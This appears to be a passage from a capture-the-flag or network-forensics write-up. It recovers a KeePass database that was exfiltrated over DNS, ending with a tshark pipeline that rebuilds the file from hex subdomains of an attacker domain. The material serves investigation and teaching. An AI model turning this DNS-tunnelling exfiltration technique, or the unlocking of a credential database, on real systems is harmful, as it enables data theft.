

Use “From Hex” to decode the strings.

The result is just jumble of text or strings. Save the output to a file instead.

This now is a copy of the exfiltrated file.



With the master password retrieved, we can open the database and see what’s inside.



Look around the database until we find the account number being asked.

**OR**

`tshark -r capture.pcapng -Y "ip.dst==167.71.211.113 and dns" -T fields -e dns.qry.name | grep -E '[A-F0-9]+.bpakcaging.xyz$' | cut -d'.' -f1 | tr -d '\n' | xxd -p -r > protected_data.kdbx`

 

 

 

